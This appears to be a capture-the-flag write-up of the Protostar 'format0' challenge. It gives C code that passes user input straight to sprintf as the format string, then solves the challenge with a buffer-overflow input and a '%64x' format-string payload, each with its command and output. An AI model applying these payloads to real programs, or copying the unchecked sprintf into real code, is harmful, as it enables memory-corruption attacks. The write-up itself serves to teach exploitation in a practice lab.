 # Format 0

## Source Code

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);              //<- This code causes Buffer overflow
  
  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

## Overview & Idea

- `sprintf(char *str, char *format, arg...)` doesn't specify the `char *format`, so, we can use user input to exploit either with BOF or Format String vulnerability.

## Details

### With BOF

- We just use random 64 bytes to fill up buffer variable, after that 64 bytes is 0xdeadbeef to overwrite the target variable to pass into true branch of if statement.

- **RESULT**:
```
root@protostar:/opt/protostar/bin# (python -c 'print("a"*64+"\xef\xbe\xad\xde")') | xargs ./format0
you have hit the target correctly :)
```

### With Format String

#### How does Format String works?

- In x86_32 Assembly, if we call to a function with arguments, we must pass it into stack

```
|        .  .  .  .
|  +-------------------+      <- esp
|  |                   |      
|  |                   |      
|  |  Content of func  |      
|  |                   |      
|  |                   |      
|  +-------------------+      <- ebp                          
|  |    EBP Reserve    |                               
|  +-------------------+                                   
S  |        RET        |
t  +-------------------+
a  |     argument 1    |
c  +-------------------+
k  |     argument 2    |
|  +-------------------+
|  |     argument 3    |
|  +-------------------+
|  |     argument ...  |
|  +-------------------+
|        .  .  .  .

```

- Let's check the disassembly of `printf("%d %d %d\n", 3, 1, 2);` statement

```
   0x08049166 <+0>:     lea    ecx,[esp+0x4]
   0x0804916a <+4>:     and    esp,0xfffffff0
   0x0804916d <+7>:     push   DWORD PTR [ecx-0x4]
   0x08049170 <+10>:    push   ebp
   0x08049171 <+11>:    mov    ebp,esp
   0x08049173 <+13>:    push   ebx
   0x08049174 <+14>:    push   ecx
   0x08049175 <+15>:    call   0x80491a5 <__x86.get_pc_thunk.ax>
   -------------------------------------------------------
   0x0804917a <+20>:    add    eax,0x2e7a                |
   0x0804917f <+25>:    push   0x2                       |
   0x08049181 <+27>:    push   0x1                       |    
   0x08049183 <+29>:    push   0x3                       |    call to printf
   0x08049185 <+31>:    lea    edx,[eax-0x1fec]          |    
   0x0804918b <+37>:    push   edx                       | 
   0x0804918c <+38>:    mov    ebx,eax                   |     
   0x0804918e <+40>:    call   0x8049030 <printf@plt>    |                    
   -------------------------------------------------------
   0x08049193 <+45>:    add    esp,0x10
   0x08049196 <+48>:    mov    eax,0x0
   0x0804919b <+53>:    lea    esp,[ebp-0x8]
   0x0804919e <+56>:    pop    ecx
   0x0804919f <+57>:    pop    ebx
   0x080491a0 <+58>:    pop    ebp
   0x080491a1 <+59>:    lea    esp,[ecx-0x4]
   0x080491a4 <+62>:    ret
```

- We can see that, First `add   eax, 0x2e7a` is statement that store address of GOT, then, it pushs 3 arguments into stack, then it pushs the address of `char *format` from GOT into stack. So, stack will look like this:

```
|        .  .  .  .
|  +-------------------+      <- esp
|  |                   |      
|  |                   |      
|  | Content of printf |      
|  |                   |      
|  |                   |      
|  +-------------------+      <- ebp                          
|  |    EBP Reserve    |                               
|  +-------------------+                                   
S  |        RET        |
t  +-------------------+
a  |   "%d %d %d\n"    |
c  +-------------------+
k  |         3         |
|  +-------------------+
|  |         1         |
|  +-------------------+
|  |         2         |
|  +-------------------+
|        .  .  .  .

```

- With a call to printf like that it'll print the contents of argument that is on stack. But, what if we do not feed the argument 3, 1, 2? Does it print content of stack? Yes, It will be. Let's test some code to see what is it printf:

```c
// gcc -m32 -no-pie fmt0.c -o fmt
#include<stdio.h>

int main()
{
    printf("%x %x %x\n");
}

// result of this program can be different in each computer, each run with gdb and without gdb
// turn off the ASLR to make it easy to understand

// Result:
// ffffd514 ffffd51c 804917a

// -------------------------------------------------Stack-----------------------------------------------------------
// 00:0000│ esp 0xffffd440 —▸ 0x804a008 ◂— '%x %x %x\n'
// 01:0004│     0xffffd444 —▸ 0xffffd514 —▸ 0xffffd668 ◂— '/mnt/c/users/whatd/Desktop/CTF/pwn/labs/fmt/fmt0'
// 02:0008│     0xffffd448 —▸ 0xffffd51c —▸ 0xffffd699 ◂— 'HOSTTYPE=x86_64'
// 03:000c│     0xffffd44c —▸ 0x804917a (main+20) ◂— add    eax, 0x2e7a
// 04:0010│     0xffffd450 —▸ 0xffffd470 ◂— 0x1
// 05:0014│     0xffffd454 ◂— 0x0
// 06:0018│ ebp 0xffffd458 ◂— 0x0
// 07:001c│     0xffffd45c —▸ 0xf7ddf905 (__libc_start_main+229) ◂— add    esp, 0x10
```

- It works exactly with our expection.

### Format speciers

- You can click on this [link](https://eecs.wsu.edu/~cs150/reading/printf.htm) to explore more specifier in C. Below is some specifier that we'll play with :3

|  Specifier |  Used for     |
| :---: | :---: |
|   %c | print single character |
| %s | print a string |
| %x | hex integer    |
| %p | an address  (or pointer)   |
| %n | write 4 bytes on stack with value is size of printed string | 
| %hn | write 2 bytes on stack with value is size of printed string | 
| %hhn | write 1 bytes on stack with value is size of printed string | 

### Format String Vulnerablility

- The Format String exploit occurs when the submitted data of an input string is evaluated as a command by the application. In this way, the attacker could execute code, read the stack, or cause a segmentation fault in the running application, causing new behaviors that could compromise the security or the stability of the system.
- Remember the above example with C code. We can use `printf("%d %d %d");` to read the stack. And if we write code like this:

```
char buffer[] = "%d %d %d"
printf(buffer)
```

- It does the same `printf("%d %d %d");`, and if buffer is user input, it's so dangerous because user can read, write on stack or do somethings that we don't expected.

### Back to challenge

- `int sprintf(char *str, char *fmt, arg...);` sends formatted output to a string pointed to, by str.
- So, we can use some format specifier to ask the program gave the output we want and put it in str, with this chall is buffer.
- If you read the link that I gave you in above, you can remember `%[sign_option][width_field.precision]<format_specifier>`. We can use width_field to ask the program print the size that we want.

- We need 64 bytes to fill up buffer and 4 bytes to overwrite target. we will use this format to do it: `"%64x\xef\xbe\xad\xde"`

### Exploit

```python
# filename: exp.py

payload = "%64x\xef\xbe\xad\xde"
print(payload)

# python exp.py | xargs ./fmt0
```
### Result

```
root@protostar:/opt/protostar/bin# python exp.py | xargs ./format0
you have hit the target correctly :)
```